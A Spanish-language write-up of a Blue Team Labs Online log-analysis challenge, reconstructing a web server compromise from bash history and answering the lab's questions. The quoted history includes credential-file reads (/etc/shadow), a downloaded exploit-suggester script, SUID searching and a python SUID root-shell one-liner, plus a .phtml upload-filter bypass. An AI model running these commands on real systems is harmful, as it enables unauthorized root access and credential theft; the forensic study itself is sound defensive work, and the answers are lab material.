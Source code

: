 # Write-Up — Log Analysis: Privilege Escalation

**Platform:** BTLO  
**Lab:** Log Analysis / Privilege Escalation  
**Category:** CTF Like  
**Date:** 2025-10-01  
**Difficulty:** Easy<br>
**OS:** Windows/Linux
**Link:** https://blueteamlabs.online/home/challenge/log-analysis-privilege-escalation-65ffe8df12

---

## Scenario

A server with sensitive data was accessed by an attacker and the files were posted on an underground forum. This data was only available to a privileged user, in this case the ‘root’ account. Responders say ‘www-data’ would be the logged in user if the server was remotely accessed, and this user doesn’t have access to the data. The developer stated that the server is hosting a PHP-based website and that proper filtering is in place to prevent php file uploads to gain malicious code execution. The bash history is provided to you but the recorded commands don’t appear to be related to the attack. Can you find what actually happened?

---

## Bash History Analysis

Descargamos el archivo que nos proporcionan con el historial de comandos ejecutados en el servidor.
<figure><img src="./assets/images/descarga.png" alt=""><figcaption></figcaption></figure>
<figure><img src="./assets/images/unzip.png" alt=""><figcaption></figcaption></figure>
A través de ellos podemos reconstruir las acciones del atacante:

```bash
cat BTLO\ Log\ Analysis\ -\ Privilege\ Escalation/bash_history
```
```bash
nano index.php
touch test.php
rm test.php
cd ../
ls
ls -la
rmdir bck/
rm -rf bck/
cd html/
cd uploads/
ls -la
pwd
id
whoami
ls
cd /root
cd /
ls -la
cd /home
ls
cd /home/daniel/
ls -la
su root
find / -name perl*
find / -name python*
python
python -c 'import pty; pty.spawn("/bin/sh")'
find / -name gcc*
find / -name cc
echo os.system('/bin/bash')
cd /tmp
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh
env
ps -aux
ps -ef | grep root
ls -alh /usr/bin/
ls -alh /sbin/
dpkg -l
ls -aRl /etc/| awk '$1 ~ /^.*r.*/'
crontab -l
ifconfig -a
cat /etc/network/interfaces
cat /etc/sysconfig/network
cat /etc/resolv.conf
iptables -L
lsof -i
tcpdump
last
cat /etc/sudoers
sudo -l
ls -ahlR /root/
ls -ahlR /home/
cat ~/.bashrc
cat ~/.profile
cat ~/.ssh/authorized_keys
ls -aRl /etc/ | awk '$1 ~ /^.*w.*/' 2>/dev/null
/bin/bash -i
cat /etc/fstab
cat /etc/passwd
cat /etc/shadow
find / -type f -user root -perm -4000 2>/dev/null
./usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
rm /var/www/html/uploads/x.phtml
```

---

## Challenge Questions — Answers & Justification

### 1) What user (other than `root`) is present on the server?

El atacante accede al directorio /home/daniel/ . Esto nos revela la existencia de otro usuario en el sistema.

**Respuesta:** daniel

---

### 2) Which script did the attacker attempt to download?

Observamos el uso de wget para descargar un script.

**Respuesta:** linux-exploit-suggester.sh


---

### 3) Which packet analyzer did the attacker attempt to use?

En el historial aparece `tcpdump`, que es una herramienta para capturar paquetes de red.

**Respuesta:** tcpdump


---

### 4) Which file extension did the attacker use to bypass the upload filter?

El atacante elimina un archivo con extensión .phtml, lo que indica que fue usado para evadir el filtro de subida de archivos PHP.

**Respuesta:** .phtml


---

### 5) What misconfiguration in `python` was exploited to gain root?

```bash
./usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
Este comando intenta ejecutar una shell con como root usando el argumento -p, lo cual solo es posible si el binario de Python tiene el bit SUID activado. 
Esta información la he encontrado aquí: https://gtfobins.github.io/gtfobins/gdb/#suid

**Respuesta:** SUID
